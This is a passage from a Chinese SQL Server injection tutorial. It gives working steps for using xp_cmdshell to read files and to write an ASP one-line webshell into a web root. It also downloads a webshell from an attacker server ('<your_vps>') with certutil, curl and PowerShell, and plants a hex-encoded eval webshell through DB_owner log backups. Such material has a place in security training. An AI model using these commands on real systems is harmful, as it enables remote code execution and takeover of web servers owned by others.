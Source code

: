 xp_cmpshell执行dos命令，在知道绝对路径的情况下读取文件

```sql
exec master..xp_cmdshell 'type c:\\1.txt'
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_36_cF5bHASf.png)



### 写
xp_cmdshell 写入webshell
在得知绝对路径的情况下，使用echo 写入webshell，如果需要换行则使用>>追加写入，注意如=、> 等前使用^来转义
```sql
exec master..xp_cmdshell 'echo ^<%eval request("cmd")% ^>> C:\Inetpub\wwwroot\sqlilabs\test.asp'
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_37_VORt9xia.png)

或者使用远程下载

```shell
certutil.exe -urlcache -split -f "<your_vps>" web_absolute_path/xxx.asp
curl <your_vps> -o web_absolute_path/xxx.asp
powershell -c "invoke-webrequest -uri <your_vps> -outfile web_absolute_path/xxx.asp"
```
### DB_owner权限LOG备份Getshell
无论是LOG备份还是差异备份，都是利用备份的过程中写入一句话木马
**SQLServer常见的备份策略：**

- 每周一次完整备份
- 每天一次差异备份
- 每小时一次事务日志备份

**利用前提**：

- 目标机器存在数据库备份文件 ，也就是如果我们利用 test 数据库的话，则需要该test数据库存在数据库备份文件，而且恢复模式得是 完整模式
- 知道网站的绝对路径
- 该注入支持堆叠注入
```sql
alter database 数据库名 set RECOVERY FULL;   #修改数据库恢复模式为 完整模式
create table cmd (a image);        #创建一张表cmd，只有一个列 a，类型为image
backup log 数据库名 to disk= 'C:\Inetpub\wwwroot\sqlilabs\1.asp' with init;   #备份表到指定路径
insert into cmd (a) values(0x3c256576616c20726571756573742822636d642229253e);  #插入一句话到cmd表里
backup log 数据库名 to disk='C:\Inetpub\wwwroot\sqlilabs\2.asp';   #把操作日志备份到指定文件
drop table cmd;    #删除cmd表
```
第四行的 `0x3c256576616c20726571756573742822636d642229253e `是一句话木马 的16进制表示`<%eval request("cmd")%>`

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_37_N89zsXha.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_37_9c8nlM1I.png)

执行完成之后会在目标网站根目录下生成1.asp和2.asp文件，其中1.asp 保存数据库，2.asp就是我们需要连接的木马文件

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_38_mvWKtLs0.png)
